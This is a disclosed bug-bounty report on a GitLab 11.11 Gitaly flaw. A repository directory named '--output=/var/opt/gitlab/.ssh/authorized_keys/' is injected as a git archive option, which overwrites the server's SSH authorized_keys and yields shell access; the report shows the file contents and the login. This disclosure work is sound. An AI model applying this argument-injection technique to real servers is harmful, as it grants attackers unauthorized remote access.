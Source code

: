 # Local files could be overwritten in GitLab, leading to remote command execution

## Report Details
- **Report ID**: 587854
- **URL**: https://hackerone.com/reports/587854
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-05-22T14:27:06.680Z
- **Disclosed**: 2019-07-17T00:23:37.470Z

## Reporter
- **Username**: saltyyolk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
#### Arbitrary file overwrite
A new feature (download a directory of a repository) in GitLab 11.11 introduced some changes in `./internal/service/repository/archive.go` of Gitaly.
```go
func handleArchive(ctx context.Context, writer io.Writer, in *gitalypb.GetArchiveRequest, compressCmd *exec.Cmd, format string, path string) error {                                                           
        archiveCommand, err := git.Command(ctx, in.GetRepository(), "archive",                          
                "--format="+format, "--prefix="+in.GetPrefix()+"/", in.GetCommitId(), path) 
...
```

A new parameter `path` is concatenated to the command, the parameter is supposed to carry the path of the directory to be downloaded in the repository. However, Gitaly could be misled by an attacker if the path starts with double dashes, for example:
```shell
$ tree
.
└── --output=
    └── var
        └── opt
            └── gitlab
                └── .ssh
                    └── authorized_keys
                        └── id_ed25519.pub
```

Suppose we have a repository which has only one file `id_ed25519.pub` (contains my pubkey) in directory `--output=/var/opt/gitlab/.ssh/authorized_keys/`. What happens in Gitaly when I click `download directory as tar` under this directory? The actual command get executed here is:
```
git --git-dir=DIR_TO_REPO archive --format tar --prefix=/ COMMIT_ID --output=/var/opt/gitlab/.ssh/authorized_keys
```

The content of the archive gets written to the `/var/opt/gitlab/.ssh/authorized_keys` file instead of transferred to the user.

#### RCE
The reason I choose `tar` as the format is that `tar` doesn't compress the content, all contents in the repository are preserved with some tar headers concatenated into the output.

In the above example:
Content of  `id_ed25519.pub`
```
#
ssh-ed25519 ██████
#
```
Content of  the overwritten `authorized_keys`
```
~/workspace/gitlab/archive$ docker exec -ti e1a bash
root@localhost:/# cat /var/opt/gitlab/.ssh/authorized_keys 
pax_global_header00006660000000000000000000000064134712530140014512gustar00rootroot0000000000000052 comment=412e285af38342030e5e30fcba77cb4296fb245d
archive-master---output=-var-opt-gitlab-.ssh-authorized_keys/000077500000000000000000000000001347125301400244635ustar00rootroot00000000000000archive-master---output=-var-opt-gitlab-.ssh-authorized_keys/--output=/000077500000000000000000000000001347125301400262525ustar00rootroot00000000000000archive-master---output=-var-opt-gitlab-.ssh-authorized_keys/--output=/var/000077500000000000000000000000001347125301400270425ustar00rootroot00000000000000archive-master---output=-var-opt-gitlab-.ssh-authorized_keys/--output=/var/opt/000077500000000000000000000000001347125301400276445ustar00rootroot00000000000000archive-master---output=-var-opt-gitlab-.ssh-authorized_keys/--output=/var/opt/gitlab/000077500000000000000000000000001347125301400311065ustar00rootroot00000000000000archive-master---output=-var-opt-gitlab-.ssh-authorized_keys/--output=/var/opt/gitlab/.ssh/000077500000000000000000000000001347125301400317615ustar00rootroot00000000000000authorized_keys/000077500000000000000000000000001347125301400351135ustar00rootroot00000000000000archive-master---output=-var-opt-gitlab-.ssh-authorized_keys/--output=/var/opt/gitlab/.sshid_ed25519.pub000066400000000000000000000001661347125301400373000ustar00rootroot00000000000000archive-master---output=-var-opt-gitlab-.ssh-authorized_keys/--output=/var/opt/gitlab/.ssh/authorized_keys#
ssh-ed25519 ████████ 
#
```

SSH server allows dummy content in the `authorized_keys` file, as long as the public keys are started with a new line.

So, after the exploit:
```
$ ssh -i ~/.ssh/id_ed25519 git@10.26.0.3

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ whoami
git
$ 
```

### Steps to reproduce

As stated above.

### Impact

For most self-hosted single instance GitLab users, this is a RCE issue.

For those who has Gitaly running in different OS with gitlab-shell, the impact varies and depends on different circumstances.

For GitLab.com, as the described PoC is destructive and it's hard to observe if I choose some other files to overwrite. I didn't test and I want to leave the evaluation of impact to you guys. :p

#### Results of GitLab environment info
```
root@localhost:/# gitlab-rake gitlab:env:info

System information
System:		
Current User:	git
Using RVM:	no
Ruby Version:	2.5.3p105
Gem Version:	2.7.9
Bundler Version:1.17.3
Rake Version:	12.3.2
Redis Version:	3.2.12
Git Version:	2.21.0
Sidekiq Version:5.2.7
Go Version:	unknown

GitLab information
Version:	11.11.0
Revision:	3e8ca2fb781
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	9.6.11
URL:		http://10.26.0.3
HTTP Clone URL:	http://10.26.0.3/some-group/some-project.git
SSH Clone URL:	git@10.26.0.3:some-group/some-project.git
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers: 

GitLab Shell
Version:	9.1.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

## Impact

OS command injections usually lead to serious results, remote code execution in this case.

## Attachments
No attachments
